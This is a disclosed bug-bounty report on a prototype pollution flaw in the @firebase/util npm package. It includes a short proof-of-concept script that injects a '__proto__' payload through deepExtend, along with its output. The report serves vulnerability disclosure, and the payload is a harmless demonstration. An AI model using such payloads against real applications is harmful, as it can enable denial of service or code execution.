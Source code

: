 # [@firebase/util] Prototype pollution

## Report Details
- **Report ID**: 1001218
- **URL**: https://hackerone.com/reports/1001218
- **State**: Closed
- **Severity**: high
- **Submitted**: 2020-10-07T15:00:05.559Z
- **Disclosed**: 2020-11-17T17:42:42.628Z

## Reporter
- **Username**: d3lla
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: nodejs-ecosystem

## Vulnerability Information
# Module

**module name:** `@firebase/util`
**version:** `0.3.2`
**npm page:** `https://www.npmjs.com/package/@firebase/util`

## Module Description

NOTE: This is specifically tailored for Firebase JS SDK usage, if you are not a member of the Firebase team, please avoid using this package

This is a wrapper of some Webchannel Features for the Firebase JS SDK.

## Module Stats

[1,516,157] weekly downloads

# Vulnerability

## Vulnerability Description

I tested the [`deepCopy`](https://github.com/firebase/firebase-js-sdk/blob/master/packages/util/src/deepCopy.ts) and [`deepExtend`](https://github.com/firebase/firebase-js-sdk/blob/master/packages/util/src/deepCopy.ts) functions.

The `deepCopy` and `deepExtend` functions can be used to add/modify properties of the Object prototype. These properties will be present on all objects.

## Steps To Reproduce:
- install `@firebase/util` module:
    - `npm i ``@firebase/util`

Run the following poc:
```javascript
const utils = require('@firebase/util');

const obj = {};
const source = JSON.parse('{"__proto__":{"polluted":"yes"}}');
console.log("Before : " + obj.polluted);
utils.deepExtend({}, source);
// utils.deepCopy(source);
console.log("After : " + obj.polluted);

```
Output:
```console

Before : undefined
After : yes
```
{F1024346}

## Supporting Material/References:

- OPERATING SYSTEM VERSION: Ubuntu 18.04.4 LTS
- NODEJS VERSION: v14.11.0
- NPM VERSION: 6.14.8

# Wrap up

- I contacted the maintainer to let them know: [N] 
- I opened an issue in the related repository: [N] 


Thank you for your time.

best regards,

d3lla

## Impact

The impact depends on the application. In some cases it is possible to achieve Denial of service (DoS), Remote Code Execution, Property Injection.

## Attachments
- firebase_util_poc.mov
